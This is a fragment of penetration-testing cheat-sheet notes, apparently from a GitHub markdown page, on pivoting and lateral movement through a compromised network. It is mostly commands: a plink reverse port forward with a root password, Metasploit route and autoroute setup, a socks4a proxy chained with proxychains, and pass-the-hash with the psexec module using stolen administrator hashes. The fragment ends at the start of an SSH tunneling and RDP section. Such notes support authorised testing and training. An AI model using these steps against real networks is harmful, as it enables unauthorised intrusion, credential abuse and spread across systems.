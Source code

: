         -   plink.exe -l root -pw mysecretpassword 192.168.0.101 -R 8080:127.0.0.1:8080

-   <h2 align="center">Pivoting (lateral movement)</h2>
>method used by penetration testers that uses the compromised system or host to attack other systems on the same network "

-   **Metasploit**

    -   if we found that the target has 2 network interfaces which means has multiple network (multihomed) we can add that subnet

    -     msf \>route add \[victim2\_subnet\] \[session\_id\]

    -   **Meterpreter**

        -   Meterpreter \> run autoroute -s 192.168.15.0/24

    -   **Module**

        -   Use post/windows/manage/autoroute

            -   Set session \[nb\] -\> will automate the process without specifying the new ip subnet

            -   Run

        -   We can combine route it with socks module to allow other tools outside metasploit to interact with the target and tunnel through metasploit pivot

            -   Use auxiliary/server/socks4a

            -   Set SRVHOST 127.0.0.1

            -   Set SRVPORT \[PORT\]

            -   Exploit -j

            -   Then edit the proxychains
                
                -   echo "socks4 127.0.0.1 \[port\] " \>\> /etc/proxychains.conf

        -   Then get the hashes from the target admin passwords are usually the same in the network and you can use pass the hash  and we can try pth with psexec in metasploit

            -   use exploit/windows/smb/psexec

            -   set rhost \[target\_host\_2\]

            -   set SMBUSER \[Administrator\]

            -   set SMBPASS \[hash\]

            -   set payload  \[payload\]

            -   exploit


-   <h2 align="center">Ssh tunneling</h2>

-   **Built-in system tools**

    -   **Rdp**

        -   C:\\Windows\\System32\\mstsc.exe

        -   rdesktop 192.168.112.200 -g 80%

